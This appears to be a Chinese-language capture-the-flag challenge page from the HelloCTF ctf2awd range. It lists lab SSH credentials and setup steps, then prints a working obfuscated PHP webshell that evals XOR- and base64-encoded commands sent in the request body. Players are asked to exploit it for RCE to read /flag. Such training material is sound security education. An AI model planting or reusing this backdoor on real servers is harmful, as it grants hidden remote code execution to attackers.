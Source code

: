 ```bash
 ____    ______  ____       ___    ______  __      __  ____      
/\  _`\ /\__  _\/\  _`\   /'___`\ /\  _  \/\ \  __/\ \/\  _`\    
\ \ \/\_\/_/\ \/\ \ \L\_\/\_\ /\ \\ \ \L\ \ \ \/\ \ \ \ \ \/\ \  
 \ \ \/_/_ \ \ \ \ \  _\/\/_/// /__\ \  __ \ \ \ \ \ \ \ \ \ \ \ 
  \ \ \L\ \ \ \ \ \ \ \/    // /_\ \\ \ \/\ \ \ \_/ \_\ \ \ \_\ \
   \ \____/  \ \_\ \ \_\   /\______/ \ \_\ \_\ `\___x___/\ \____/
    \/___/    \/_/  \/_/   \/_____/   \/_/\/_/'\/__//__/  \/___/ 
                                                                                                                                
# @Author: 探姬
# @Date:   2024-08-26 14:34
# @Repo:   github.com/ProbiusOfficial/ctf2awd
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

--- HelloCTF - ctf2awd靶场 : 攻击 - 简单混淆后门利用 --- 
```

## 配置信息

docker - ubuntu:22.04
username: `helloctf`
password: `123456`

开启题目后会得到 `IP:PORT` 信息，这里将不再能使用浏览器直接打开，你需要使用 `ssh` 连接到 GameBox 上:

```bash
ssh username@ip -p port
```

内部端口在无特殊声明的情况下均为 22 端口，由于存在 MySQL 环境，最低内存请给256，建议512。

(请开放 80 / 22 端口)

## 关于本关卡

后门源码：

```php
<?php 
/* RCE ME */
include('config.php');
highlight_file(__FILE__);
$Y='{$o.=$Pt{$i}^$k{PP$j}P;}}retPurn $o;}Pif(@preg_maPtch("/$khP(.+)$kPf/P",@file_gPePtP_contents(PP"php:/';
$j=str_replace('J','','JJcreate_JfJunJctJion');
$u='contentPs();@ob_enPd_Pclean();PP$r=P@base6P4_encode(@Px(@gPzcompress($Po),$k));Pprint("P$p$kh$Pr$kf");}';
$x='/input"P),$m)==1){@Pob_Pstart();P@ePval(@gzuPncompPresPs(@x(@bPPase64_Pdecode($Pm[1]),P$Pk)));P$o=@ob_get_';
$Z=',$k){$c=Pstrlen($Pk)P;$l=strlPen($t);P$o=P"";forP($Pi=0;$Pi<$l;){for($jP=P0;($j<$cP&&$i<$l);$jP+PP+,$i++)';
$C='$k="7Pccf819P2";$PkPh="528P2714P13977";$kf="f5415P27062PPa9";$p="ieP3xNVP9ea8twe7wPl";fuPnPction x($Pt';
$U=str_replace('P','',$C.$Z.$Y.$x.$u);
$E=$j('',$U);
$E();
?>
```

### SSH 通关方式
使用 PHP / Python 编写攻击 EXP，实现 RCE 获取flag。

### 80 端口通关方式
(我觉得不需要多说)
Flag 位于 `/flag`。